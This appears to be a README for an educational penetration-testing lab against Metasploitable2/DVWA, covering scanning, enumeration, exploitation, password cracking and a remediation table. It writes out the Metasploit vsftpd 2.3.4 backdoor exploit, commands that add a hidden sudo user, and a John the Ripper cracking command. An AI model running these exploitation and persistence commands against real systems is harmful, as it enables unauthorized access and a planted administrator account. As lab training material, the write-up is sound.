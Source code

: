 # 🛡️ Penetration Testing and Remediation on a Target System

# 🎯 OBJECTIVES -
To conduct a structured penetration test using ethical hacking techniques on a deliberately vulnerable virtual machine. The objective is to simulate a real-world attack scenario and then provide recommendations for remediation.

# 💻 LAB ENVIRONMENT -
|Component         |  Details                             |
|------------------|--------------------------------------|
|Attacker Machine  |  Kali Linux (Latest Version)         |
|Target Machine    |  Metasploitable2 / DVWA              |
|Network Type      |  Host-Only or NAT (VMware/VirtualBox)|
|Target IP         |  192.168.56.101 (example)            |

# 🚀 TASK PERFORMED –
# 🔍 Task 1: Basic Network Scanning
Purpose: Identify open and potentially vulnerable ports and services.
Command:
nmap -sS -sV -T4 -Pn 192.168.56.101
Expected Output:
|PORT   | STATE | SERVICE | VERSION                                     |
|-------|-------|---------|---------------------------------------------|
|21/tcp | open  | ftp     | vsftpd 2.3.4                                |
|22/tcp | open  | ssh     | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)|
Open Services Analysis:
FTP (21): Unauthenticated access or vulnerable versions.
SSH (22): Brute-force potential.

# 🕵️‍♀️ Task 2: Reconnaissance
Purpose: To identify web-based vulnerabilities and sensitive files.
Command:
nikto -h http://192.168.56.101
Expected Output:
+ Server: Apache/2.2.8 (Ubuntu)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
# 🔐 Hidden Services Example:
phpinfo.php: Often left during development.
/test/ or /backup/ folders may contain credentials or outdated code.
# 🛠️ Extra Tool:
dirb http://192.168.56.101

# 📝 Task 3: Enumeration Summary
Purpose: To gather detailed information about services, users, and shares.
Command (Samba Enumeration):
enum4linux -a 192.168.56.101
Expected Output:
Users: admin, user1, guest
Shares: IPC$, ADMIN$, Public, tmp
Machine Name: METASPLOITABLE

# 💥Task 4: Exploitation of Services
Exploit Example: vsftpd 2.3.4 Backdoor
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
Expected Output:
Backdoor service has been spawned.
Command shell session 1 opened (192.168.56.102:4444 -> 192.168.56.101:6200)

# 👤 Task 5: Creating A Privileged User
Command inside Shell:
useradd -m hacker
echo 'hacker:hacked123' | chpasswd
usermod -aG sudo hacker
Expected Output:
uid=1001(hacker) gid=1001(hacker) groups=1001(hacker),27(sudo)

# 🥷 Task 6: Cracking Password Hash
Command:

Crack Using John:

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Expected Output:

hacked123 (hacker)

# 🔧 Task 7: Remediation And Recommendations
|Issue                              | Risk                      | Recommendation                         |
|-----------------------------------|---------------------------|----------------------------------------|
|vsftpd 2.3.4 with backdoor         | Remote shell access       | Disable FTP or update to latest version|
|Web server exposes /phpinfo.php    | Sensitive info disclosure | Remove or restrict access              |
|Default users found via enum4linux | Easy brute-force          | Remove or rename default account       |
|Weak password found                | Easy to crack             | Use strong, complex passwords          |

# 📚 Conclusion
This project demonstrated a typical penetration testing workflow including scanning, enumeration, exploitation, and remediation planning. The vulnerabilities identified are common in many legacy or misconfigured systems and serve as practical learning examples for both aspiring ethical hackers and defenders.

# ⚠️ Disclaimer
This project is strictly for educational purposes. All activities were conducted in a closed virtual environment with no access to external or live systems.
